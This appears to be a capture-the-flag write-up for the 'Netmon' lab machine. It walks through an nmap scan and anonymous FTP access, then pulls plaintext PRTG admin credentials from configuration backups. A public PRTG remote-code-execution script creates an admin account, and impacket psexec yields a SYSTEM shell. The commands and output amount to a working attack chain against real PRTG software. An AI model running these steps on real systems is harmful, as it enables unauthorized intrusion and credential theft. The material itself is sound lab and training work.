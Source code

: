 # Netmon

`10.10.10.152`

## Nmap scan

```sh
nmap -A -T5 10.10.10.152
```

results

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 22:42 EDT
Warning: 10.10.10.152 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.152
Host is up (0.20s latency).
Not shown: 924 closed ports, 71 filtered ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m29s, deviation: 0s, median: 1m28s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-13T02:44:28
|_  start_date: 2020-04-12T23:04:18

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.31 seconds
```

## Enumeration

### FTP

Going into the FTP server to take a look around:

```sh
ftp 10.10.10.152
# Username: Anonymous
# Password: Anonymous
ls
# find the user.txt file
get user.txt
```

and we have our user flag.

### Netmon

Looking at the netmon version of `PRTG 18.1.37.13946`, we find that it used to store passwords in plain text. Let's use the FTP server to find that plaintext file.

A reddit post was found: https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/

```sh
ftp 10.10.10.152
cd programdata
cd paessler
cd "PRTG Network Monitor"
get "PRTG Configuration.dat"
get "PRTG Configuration.old"
get "PRTG Configuration.old.bak"
```

Locally on the machine:

```sh
cat 'PRTG Configuration.old.bak' | grep -B 5 "prtgadmin"
#             </dbauth>
#             <dbcredentials>
#               0
#             </dbcredentials>
#             <dbpassword>
#               <!-- User: prtgadmin -->
# --                
#                 </homepage>
#                 <lastlogin>
#                   43499.7768071065
#                 </lastlogin>
#                 <login>
#                   prtgadmin
```

The password is `PrTg@dmin2019` instead of `PrTg@dmin2018`.

Now using burpsuite to get the cookie of this login and then use the script by https://github.com/M4LV0/PRTG-Network-Monitor-RCE

```sh
./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.781493792.1586746211; _gid=GA1.4.661617980.1586746211; OCTOPUS1813713946=ezYwM0M1MEU4LTdCQzItNEExRC1BRTVFLTFFODM3RDZDRjdFNn0%3D; _gat=1"

# Final result: exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

Now the exploit is done and we can use `psexec` to login from https://github.com/SecureAuthCorp/impacket (remember to `pip install .` for this repo) using `impacket`

```sh
cd impacket-master/examples
./psexec.py pentest@10.10.10.152
# enter password P3nT3st!
```
and now we hvae root.